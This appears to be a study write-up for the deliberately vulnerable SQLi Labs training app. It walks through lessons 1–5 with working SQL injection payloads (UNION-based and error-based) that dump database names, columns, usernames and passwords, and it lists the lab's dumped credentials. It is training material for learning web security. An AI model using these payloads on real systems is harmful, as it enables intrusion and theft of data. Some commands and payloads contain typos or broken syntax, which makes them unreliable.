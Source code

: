 # **SQLi Labs**

First we have to set up sqli labs
For that we can use the following commands
install apache2 webserver by > `sudo apt install apache2`
install mysql by > sudo apt-get install mysql-srver
install php7
git clone the repository of the lab and start all the services.

### **LESS1**

The website says,Please input the ID as parameter with numeric value.
So we can input ?id=1 or 2,3,4,5.....
when we put ' we get sql error 
thus we have a sql injection
we can comment ou the rest of the query by -- - or other comments in sql language.
We can dump contents

 payloads to dump
 We can get version of the server by using /?id=-1' union select 1,version(),3--+
 We can get databasename of the server by using /?id=-1' union select 1,database(),3--+  databasename = security
 Going to the terminal and going to mysql. If we type show databases; it shows databases
 Then we can security also. We can find more details using "use security we can go into the database.
 Using show tables; we can see the tables. For looking into the tables desc emails; and so on...
 
#LESS2
The website says,Please input the ID as parameter with numeric value.
This time when we input use ?id=1'-- - doesn't work.
So we put ' before the 1 and change it as ?id='1' as payload.
Now we can comment it ?id='1' -- - 
Now we can dump contents using the payloads.

#payloads to dump
to find column_name ?id='-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+
We have more payloads that can we do and get contents of database

#LESS3
The website says,Please input the ID as parameter with numeric value.
This time when we input use ?id=1'-- - nor ?id='1'-- - doesn't work.
So we put ) before the ' and change it as ?id=1)' as payload.
No we can comment it ?id=1)'-- -
Now we can dump contents using payloads

#payloads to dump
to find data /?id=-1') union select 1,group_concat(username),3 from users
We have more payloads that can we do and get contents of database

#LESS4
The website says,Please input the ID as parameter with numeric value.
We have to use ') ' as payload 
Now can comment it using ?id=1' ")-- -
Now we can dump contents using payloads

#payloads to dump 
?id=-1' ")-- - union select 1,group_concat(username),group_concat(password) from users
We have more payloads that can we do and get contents of database.

#LESS5
In this challenge we don't get any response form the databse directy to the browser
but we get the error when we break the query,so we can dump the database through the error
we can use rand(),floor(),count() to get error

#payloads to dump
this will get database /?id=1' AND (select 1 from(select count(*),concat((select database()),floor(rand()*2))a from information_schema.tables group by a)b)--+
to get table names /?id=1' AND (select 1 from(select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 0,1),floor(rand()*2))a from information_schema.tables group by a)b)--+
to get columns /?id=1' AND (select 1 from(select count(*),concat((select column_name from information_schema.columns where table_name='emails' limit 0,1),floor(rand()*2))a from information_schema.tables group by a)b)--+

#contents of database
1.databasename = security
2.tables = emails,referers,uagents,users
3.columns = CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,USER,id,password,username
4.usernames = Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
password = Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
